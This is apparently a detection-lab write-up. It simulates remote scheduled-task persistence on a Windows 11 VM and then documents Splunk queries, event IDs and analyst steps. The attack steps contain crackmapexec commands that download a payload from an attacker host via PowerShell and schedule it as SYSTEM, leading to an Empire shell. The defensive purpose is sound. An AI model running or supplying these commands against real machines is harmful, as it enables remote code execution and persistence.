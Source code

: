 

# Detection Usecase 5 : Remote Scheduled Task Creation with schtasks


# Scenario Summary: 

An Attacker has tried to execute command remotely using crackmapexec and schedule a malware in the system to become Persistence.  

# Attack Steps:

Here, Virtual Windows 11 is the victim where universal forwarder is running,  
and Virtual Kali Linux is the attacker.  
- The Attack was simulated by Kali Linux on Windows as follows:  

1) Attacker downloaded a malware in the victim machine using Crackmapexec:   
```
crackmapexec smb 192.168.0.101 -u sshuser -p 'pass' -x 'powershell Invoke-WebRequest -URI http://192.168.0.106:8888/launcher.bat -Outfile C:\Users\sshuser\empire.bat'
```  
2) Then Scheduled the malware in the System:  
```
crackmapexec smb 192.168.0.101 -u sshuser -p 'pass' -x 'schtasks /create /tn Empirepayload /tr C:\Users\sshuser\empire.bat /sc once /st 11:00 /ru SYSTEM'
```  
3) After the execution of scheduled task attacker got a remote shell in Empire:  
  ![empire](logs/image.png)  

- Tools Used:  
    - Attacker Tool : Crackmapexec, PowerShell-Empire, schtasks.    
    - SIEM : Splunk Free  
    - Log Source : Windows Security Event Logs, Sysmon  


# Event ID / Data Source Mapping:

| Source                    | EventCode | Description                         |
|---------------------------|-----------|-------------------------------------|
| WinEventLog : Security    | 5140,5145 | Network Shared Object Access        |
| WinEventLog : Security    | 4698      | Task Creation                       |
| WinEventLog : Sysmon      | 11        | File Creation                       |
| WinEventLog : Sysmon      | 1         | Process Creation                    |

# Detection Query / Logic:
```spl 
- Search : Task Creation
index=* EventCode=4698
```
```spl 
- Search : File or Process Creation
index=* EventCode=1 OR EventCode=11
```

# Sample Alert Screenshot

1) Network Object Accessed:  
 
![5145](<logs/Screenshot 2025-05-29 105848.png>)  

2) Attacker created a schedule task: 

![schtasks](<logs/Screenshot 2025-05-29 110110.png>)  
![created1](<logs/Screenshot 2025-05-29 110127.png>)  
![created2](<logs/Screenshot 2025-05-29 105503.png>)

3) Scheduled task runs and execute some encoded powershell script:

![bat](<logs/Screenshot 2025-05-29 111344.png>)


# Analyst Notes / Recommendations:

* What Should an Analyst do ? 

-> Investigate and Verify the event(e.g.,Event ID = 4698) and identify which user account has created the scheduled tasks and what it executes.  
-> Try to correlate it with any previous event(e.g.,Brute-Force or Enumeration,Failed Login etc.).  
-> Try to look for suspicious command-lines such as Powershell one-liner or encoded scripts in scheduled tasks.  
-> If Suspicious try to kill or disable it.  
-> Preserve the Evidence & Trigger an incident response.    
-> Document & Report.


# Detection Status

 -> Successfully Detected.  

